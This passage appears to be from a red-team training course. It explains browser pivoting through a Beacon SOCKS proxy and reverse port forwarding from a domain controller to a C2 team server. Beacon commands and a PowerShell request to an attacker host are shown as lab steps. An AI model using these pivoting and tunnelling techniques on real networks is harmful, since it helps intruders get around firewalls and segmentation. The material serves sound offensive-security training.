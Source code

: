 ## Browsers

Firefox plus the _**FoxyProxy**_ extension is ideal for pivoting a browser into the network, to view internal web applications.  Simply add a new entry in _**FoxyProxy**_ that points to the Beacon **SOCKS** proxy.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/3e5/73f/7fd/foxy-proxy.png)

**Then navigate to the internal web server, `10.10.122.30`:**

![](https://files.cdn.thinkific.com/file_uploads/584845/images/797/345/0f5/iis.png)

You can also perform NTLM authentication following the steps outlined in [this post](https://offensivedefence.co.uk/posts/ntlm-auth-firefox/).

## Reverse Port Forwards

Reverse Port Forwarding allows a machine to redirect inbound traffic on a specific port to another IP and port.

### Use Cases

A useful implementation of this allows machines to bypass firewall and other network segmentation restrictions, to talk to nodes they wouldn't normally be able to.&#x20;

**For example, we can use the console of&#x20;**_**Domain Controller 2**_**&#x20;to demonstrate that it&#x20;**_**does not**_**&#x20;have outbound access to our team server:**

```
PS C:\Users\Administrator> hostname
dc-2

PS C:\Users\Administrator> iwr -Uri http://nickelviper.com/a
iwr : Unable to connect to the remote server
```

**We know of course that Workstation 2 does - so we can create a reverse port forward to relay traffic between Domain Controller 2 and our team server**:

```
beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```

This will bind port `8080` on Workstation 2.

```
beacon> run netstat -anp tcp
TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```

Any traffic hitting this port will be tunnelled back to the team server over the C2 channel. &#x20;

**The team server will then relay the traffic to the forward host/port, then send the response back over Beacon.  Now, we can download the file via this port forward:**
